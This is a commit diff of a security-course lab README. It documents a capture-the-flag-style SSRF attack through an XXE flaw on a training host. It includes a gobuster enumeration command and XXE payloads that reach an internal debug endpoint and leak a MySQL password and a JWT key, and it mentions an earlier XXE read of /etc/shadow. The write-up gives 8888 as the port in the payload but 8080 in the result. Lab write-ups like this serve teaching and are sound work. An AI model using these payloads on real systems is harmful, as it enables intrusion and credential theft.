

Before and after one commit to boostvolt/software-and-system-security-1, a Markdown page: labs/03/README.md, the part around the change. Shown: that part at 80% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Document SSRF attack steps using XXE
Detailed the steps for executing a Server-Side Request Forgery (SSRF) attack using XXE, including preparation, attack vector understanding, and successful exploitation.

````diff
--- a/labs/03/README.md
+++ b/labs/03/README.md
@@ -347,3 +347,68 @@ Modified the XML file to include an External Entity declaration that reads `/etc
 - The content of /etc/shadow was displayed in the response where the product name appears
 
 <img width="1728" height="970" alt="Screenshot 2025-10-07 at 22 03 35" src="https://github.com/user-attachments/assets/944469ad-499f-42ac-b594-c424bfa1ef6c" />
+
+# 5 SCHOGGI: Server-Side Request Forgery (SSRF) with XXE Solution
+
+## Attack Steps Description
+
+### Step 1: Preparation - Directory Enumeration
+- Used gobuster to discover hidden endpoints on the web server
+- Command executed:
+```bash
+gobuster dir -e -u https://5c5ca280-0462-4b42-a274-c2debc6ddec7.i.vuln.land -w /usr/share/wordlists/dirb/common.txt
+```
+- Discovered `/debug` endpoint that exists but returns 403 Forbidden
+- Accessing `/debug` in browser revealed it can only be accessed from localhost
+
+### Step 2: Understanding SSRF Attack Vector
+
+- The `/debug` endpoint is blocked externally but accessible from the server itself
+- Can leverage the XXE vulnerability in Bulk Order functionality to make the server request the endpoint
+- This is a Server-Side Request Forgery (SSRF) attack - the server makes the request on our behalf
+
+### Step 3: Initial SSRF Attempt
+Created XXE payload to access the debug endpoint via localhost:
+
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE query [ <!ENTITY attack SYSTEM "localhost/debug"> ]>
+<order>
+    <product>
+        <name>&attack;</name>
+        <quantity>25</quantity>
+    </product>
+</order>
+```
+
+
+Result: Error indicating invalid XML or connection issue
+
+### Step 4: Port Discovery
+
+- The debug endpoint might be on a different internal port
+- Guessed common web server port 8080
+- According to hints, port 8888 also works
+
+### Step 5: Successful SSRF Attack
+Modified XXE payload to target the correct port:
+
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE query [ <!ENTITY attack SYSTEM "http://localhost:8888/debug"> ]>
+<order>
+    <product>
+        <name>&attack;</name>
+        <quantity>25</quantity>
+    </product>
+</order>
+```
+
+### Step 6: Extracting Sensitive Information
+
+- Uploaded the crafted XML through Bulk Order functionality
+- The server processed the XXE payload and made an HTTP request to localhost:8080/debug
+- The response from the debug endpoint was included in the bulk order confirmation
+- Successfully retrieved MySQL password and JWT signing key
+
+<img width="1728" height="966" alt="Screenshot 2025-10-07 at 22 13 04" src="https://github.com/user-attachments/assets/6015b373-1420-48e0-806b-558acb25a03e" />
````
